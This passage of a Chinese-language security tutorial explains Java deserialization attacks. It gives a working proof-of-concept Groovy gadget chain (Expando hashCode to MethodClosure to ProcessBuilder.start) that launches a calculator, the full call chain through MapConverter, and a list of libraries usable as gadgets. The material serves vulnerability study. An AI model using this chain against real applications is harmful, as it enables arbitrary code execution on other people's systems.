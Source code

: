 再看MethodClosure类的说明：
>Represents a method on an object using a closure which can be invoked at any time

大体说的是通过构建指定对象以及调用方法的Closure的实例就可以在任何时候进行调用。我们构造一个调用java.lang.ProcessBuilder对象的start方法来弹出计算器：

```
MethodClosure mc = new MethodClosure(new java.lang.ProcessBuilder("open","/Applications/Calculator.app"), "start");
mc.call();
```

这样基本上可以实现任意代码的执行，但反过来如何触发hashCode方法就是我们实现任意代码执行的关键。

首先我们需要知道hashCode函数的作用，当两个对象比较是否相等的时候，会调用该对象的hashCode以及equals方法进行比较，如果这两个方法返回的结果一致，那么认为这两个对象是相等，如果被调用对象没有重写hashCode以及equals方法，那么会调用父类的默认实现。

这里明白hashCode的作用之后，再来说说HashMap的put方法,该方法的定义如下

```
public V put(K key, V value) {
   if (key == null)
     return putForNullKey(value);
     int hash = hash(key.hashCode());
  ...
}
```

因为Map是一种key-value类型的数据结构，所以Map集合不允许有重复key，所以每次在往集合中添加键值对时会去判断key是否相等，那么在判断是否相等时会调用key的hashCode方法，如果我们精心构造一个groovy.util.Expando对象作为Map集合的key，那么在将对象添加进集合时就会触发groovy.util.Expando的hashCode方法，从而触发我们的恶意代码。

所以根据上面分析可以构造poc：

```
Map map = new HashMap<Expando, Integer>();
    Expando expando = new Expando();
 
    MethodClosure methodClosure = new MethodClosure(new java.lang.ProcessBuilder("open","/Applications/Calculator.app"), "start");
    //methodClosure.call();
 
    expando.setProperty("hashCode", methodClosure);
 
    map.put(expando, test);
```

最终的调用链如下:

>MapConverter#populateMap() calls HashMap#put()->HashMap#put() calls Expando#hashCode()->Expando#hashCode() calls MethodClosure#call()->MethodClosure#call() calls MethodClosure#doCall()->MethodClosure#doCall() calls InvokerHelper#invokeMethod()->InvokerHelper#invokeMethod() calls ProcessBuilder#start()

#### 利用其它库实现任意代码执行
除了commons-collections 3.1可以用来利用java反序列化漏洞，还有以下第三方库同样可以用来利用反序列化漏洞并执行任意代码：

* commons-fileupload 1.3.1 
* commons-io 2.4 
* commons-collections 3.1 
* commons-logging 1.2  
* commons-beanutils 1.9.2  
* org.slf4j:slf4j-api 1.7.21  
* com.mchange:mchange-commons-java 0.2.11 
* org.apache.commons:commons-collections  4.0 
* com.mchange:c3p0 0.9.5.2 
* org.beanshell:bsh 2.0b5 
* org.codehaus.groovy:groovy 2.3.9 
* org.springframework:spring-aop 4.1.4.RELEASE 
* ......
